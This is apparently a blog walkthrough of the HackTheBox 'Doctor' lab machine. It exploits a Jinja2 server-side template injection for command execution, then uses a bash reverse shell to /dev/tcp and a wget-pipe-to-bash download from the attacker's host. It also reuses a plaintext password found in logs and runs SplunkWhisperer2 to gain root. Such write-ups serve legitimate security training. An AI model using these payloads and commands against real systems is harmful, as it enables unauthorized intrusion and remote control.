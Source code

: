 ```yaml
---
title: HackTheBox - Doctor
date: 2021-02-07 14:37:03 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, SSTI, reverse-shell, plain text password, splunk, SplunkWhisperer2, writeup, oscp-prep]
image: https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/Doctor.png
---
```


## Foothold

### Nmap scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sC -sV -p- 10.10.10.209
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-16 10:19 CET
Nmap scan report for doctors.htb (10.10.10.209)
Host is up (0.094s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.41 (Ubuntu)
|_  Werkzeug/1.0.1 Python/3.8.2
| http-title: Doctor Secure Messaging - Login
|_Requested resource was http://doctors.htb/login?next=%2F
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache httpd 2.4.41 (port 80)

When we go to [http://10.10.10.209/](http://10.10.10.209/), one of the first thing we can notice is: 

![web](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/web.png)

After adding `doctors.htb` to `/etc/hosts` we have a totally different page:

![doctors.htb domain](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/doctors_domain.png)

### SSTI (Server Side Template Injection)

If we check the source code of the main page, we can see there is a link to [http://doctors.htb/archive](http://doctors.htb/archive) (which is commented):

![/archive](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/source_archive.png)

After trying many types of injections in [http://doctors.htb/post/new](http://doctors.htb/post/new), we can figure out that the website is vulnerable to templates injections.

As we can see:

![payload in new messages](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/post.png)

The payload above leads to this render result in [http://doctors.htb/archive](http://doctors.htb/archive)

![SSTI render result](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/SSTI.png)

Now let's do a **reverse shell**.

### Reverse shell

Thanks to the payload above, we can now call give to [http://doctors.htb/archive](http://doctors.htb/archive) another GET parameter: "**include**".

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```

> We inject python templates because the target server is a **Werkzeug server version 1.0.1** using **Python version 3.8.2**

![SSTI payload add input GEt paremeter](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/SSTI_payload.png)

This parameter takes a shell command that we want to run, for instance `ls`:

![/archive?input=ls](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/input_ls.png)

In order to have a reverse shell, I created a file called **reverse.sh**:

```bash
bash -i >& /dev/tcp/10.10.14.9/4444 0>&1
```

On my machine, I ran an HTTP Server:

```bash
$ python3 -m http.server
```

If we type this URL on our browser, we have access to a shell on the target server with the user **web**:

`http://doctors.htb/archive?input=wget -O - http://10.10.14.9:8000/reverse.sh | bash`

![reverse shell as web user](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/reverse_shell.png)

## User (shaun)

There is another user on the machine: **shaun**.

```bash
web@doctor:~$ cd /home
web@doctor:/home$ ls
shaun
web
web@doctor:/home$ cd shaun
web@doctor:/home/shaun$ ls
user.txt
```

I used [`linpeas.sh`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), then I saw this interesting log:

![reset password](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/reset_password.png)

```bash
web@doctor:/var/backups$ su - shaun
su - shaun
Password: Guitar123
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
# Spawning a TTY Shell
python3 -c "import pty; pty.spawn('/usr/bin/bash')"
shaun@doctor:~$
shaun@doctor:~$ cat user.txt
cat user.txt
0d5dec4a853e2f82567c3d0792b7a679
```

## Root

Remember [nmap scan](#nmap-scan-open-ports) ? We saw that `splunk` is currently running on the target sever: 

![ps auxf - splunkd](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/ps_auxf_splunkd.png)

![uncommon passwd files](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/uncommon_passwd_files.png)

By looking for _"splunk privilege escalation"_, we find this repo [https://github.com/cnotin/SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2).

`PySplunkWhisperer2_remote.py` allows us to run a remote payload as `root`:

![Splunk Whispere](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/pysplunk.png)

> Payload: `python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.9 --username shaun --password Guitar123 --payload "cat /root/root.txt > /dev/shm/flag; chmod 444 /dev/shm/flag"`

Finally we got the flag:

![Root flag](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/doctor/root_flag.png)

___

## Useful links

- [PayloadsAllTheThings - Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2)
